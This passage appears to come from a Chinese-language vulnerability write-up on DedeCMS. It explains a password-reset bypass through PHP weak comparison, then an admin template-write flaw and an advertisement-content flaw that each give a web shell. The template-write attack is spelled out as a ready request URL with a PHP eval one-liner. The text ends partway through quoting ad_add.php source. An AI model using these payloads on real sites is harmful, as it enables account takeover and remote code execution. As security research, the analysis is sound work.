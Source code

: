 漏洞在`$row['safequestion'] == $safequestion && $row['safeanswer'] == $safeanswer`，默认`$row['safequestion']`在数据中的内容为0，而`$row['safeanswer']`在数据库中的结果为空，所以不用管，又因为使用了==弱类型，那么直接传入0.0，也可以使用 0. 、 0e1使得参数弱等于0并且不为空。
发现判断成功的话会执行sn函数，在`member/inc/inc_pwd_functions.php`
![](https://img-blog.csdnimg.cn/20210706193031693.png)
发现调用了newmail函数，跟进发现
![](https://img-blog.csdnimg.cn/2021070619321722.png)
存在一个`$randval = random(8);`为随机的8位，进入INSERT，`$key = md5($randval);`为md5的值，并插入了数据库，然后判断`$send`为N，那么就会执行ShowMsg输出url，并且这个url带着key
返回来看重置密码处
![](https://img-blog.csdnimg.cn/20210706193903949.png)
发现`$row['pwd'] == $sn`会验证key值，然后就会UPDATE用户的密码，即可修改密码了

#### 后台文件写入
登录后台直接访问
```
/dede/tpl.php?filename=1.lib.php&action=savetagfile&content=<?php eval($_POST[cmd]);?>
```
![](https://img-blog.csdnimg.cn/20210706210537739.png)
即可得到shell
```
/include/taglib/1.lib.php
```
![](https://img-blog.csdnimg.cn/20210706204710805.png)
漏洞在`dede/tpl.php`中的保存标签碎片修改
![](https://img-blog.csdnimg.cn/20210706205000771.png)
发现文件需要后缀为.lib.php，然后用了stripslashes来删除content中的反斜杠，最后就直接fwrite写文件了，并没有任何检测

#### 后台getshell
在模块、广告管理、增加广告位置的广告内容处写入一句话
![](https://img-blog.csdnimg.cn/20210706215255757.png)
查看在调用广告的文件，可以看到，在ad_js.php文件调用了广告
![](https://img-blog.csdnimg.cn/20210706215359475.png)
POST传参，发现在网页的源码中发现了执行代码的结果
![](https://img-blog.csdnimg.cn/20210706215728915.png)
在`dede/ad_add.php`中
```php
<?php
/**
 * 广告添加
 *
 * @version        $Id: ad_add.php 1 8:26 2010年7月12日Z tianya $
 * @package        DedeCMS.Administrator
 * @copyright      Copyright (c) 2007 - 2010, DesDev, Inc.
 * @license        http://help.dedecms.com/usersguide/license.html
 * @link           http://www.dedecms.com
 */
 
require(dirname(__FILE__)."/config.php");
CheckPurview('plus_广告管理');
require_once DEDEINC."/typelink.class.php";
if(empty($dopost)) $dopost = "";

if($dopost=="save")
{
    //timeset tagname typeid normbody expbody
    $tagname = trim($tagname);
    $row = $dsql->GetOne("SELECT typeid FROM #@__myad WHERE typeid='$typeid' AND tagname LIKE '$tagname'");
```